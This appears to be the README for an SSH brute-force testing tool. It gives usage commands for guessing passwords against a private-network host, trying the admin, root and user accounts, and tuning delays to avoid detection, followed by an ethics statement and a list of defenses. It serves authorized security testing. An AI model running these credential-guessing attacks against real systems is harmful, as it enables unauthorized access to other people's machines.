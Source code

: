 # SSH Brute Force Attack Simulation

## Overview

SSH brute force attacks attempt to gain unauthorized access to systems by repeatedly trying different username and password combinations until a valid one is found. These attacks exploit weak credentials and systems that don't implement proper security measures like rate limiting or account lockouts.

This script simulates an SSH brute force attack for educational and authorized security testing purposes.

## Features

- Multiple authentication attempts with different passwords
- Password list loading from files
- Connection timeout configuration
- Rate limiting to avoid detection
- Detailed logging and statistics
- Success/failure tracking

## Requirements

- Python 3.6+
- Paramiko library (for SSH connections)

## Installation

```bash
# Install required dependencies
pip install paramiko
```

## Usage

### Basic Attack

The simplest way to run an SSH brute force attack simulation is to specify a target IP, port, username, and passwords:

```bash
# Using a comma-separated list of passwords
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -w password1,password2,password3
```

This will:
- Attempt to connect to 192.168.1.10 on port 22
- Try to authenticate as user "admin"
- Try each password in the list sequentially
- Use the default delay of 1 second between attempts

### Using a Password File

For more comprehensive testing, you can use a file containing a list of passwords:

```bash
# Using a password file (one password per line)
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt
```

### Customizing the Attack

#### Adjust Delay Between Attempts

To control the rate of authentication attempts:

```bash
# Use a 2-second delay between attempts (more stealthy)
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -d 2

# Use a 0.5-second delay (more aggressive)
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -d 0.5
```

#### Set Connection Timeout

To adjust how long to wait for each connection attempt:

```bash
# Use a 10-second timeout for each connection
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -T 10
```

#### Limit Maximum Attempts

To limit the number of password attempts:

```bash
# Try only the first 50 passwords in the file
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -m 50
```

#### Enable Verbose Mode

For detailed output and debugging information:

```bash
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -v
```

## Advanced Usage

### Creating an Effective Password List

The effectiveness of a brute force attack depends on the quality of the password list:

```bash
# Create a simple password list
echo -e "password\nadmin\n123456\nqwerty\nletmein" > common_passwords.txt

# Use the created password list
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P common_passwords.txt
```

### Testing Multiple Usernames

To test multiple usernames, run the script multiple times:

```bash
# Test with username "admin"
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt

# Test with username "root"
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u root -P passwords.txt

# Test with username "user"
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u user -P passwords.txt
```

### Balancing Speed and Stealth

The delay parameter controls the balance between speed and detectability:

```bash
# Stealthy approach (longer delays)
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -d 3

# Balanced approach
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -d 1

# Aggressive approach (shorter delays)
python ssh_brute_force.py -t 192.168.1.10 -p 22 -u admin -P passwords.txt -d 0.3
```

## Ethical Considerations

This tool should ONLY be used for:
- Educational purposes
- Authorized security testing
- Password policy assessment

Unauthorized use against systems without explicit permission is illegal and unethical.

## Defensive Measures

Common defenses against SSH brute force attacks include:

1. Strong password policies
2. SSH key-based authentication
3. Rate limiting and account lockouts
4. Fail2ban or similar tools
5. Non-standard SSH ports
6. IP whitelisting
7. Two-factor authentication

Understanding these attacks helps in implementing proper defenses.

## Command Line Options

```
-t, --target         Target SSH server IP address (required)
-p, --port           Target SSH server port (default: 22)
-u, --username       Username to authenticate with (required)
-w, --passwords      Comma-separated list of passwords to try
-P, --password-file  Path to file containing passwords (one per line)
-d, --delay          Delay between connection attempts in seconds (default: 1.0)
-T, --timeout        Connection timeout in seconds (default: 5)
-m, --max-attempts   Maximum number of password attempts (default: 0, unlimited)
-v, --verbose        Enable verbose output
```

## License

Proprietary - Montimage

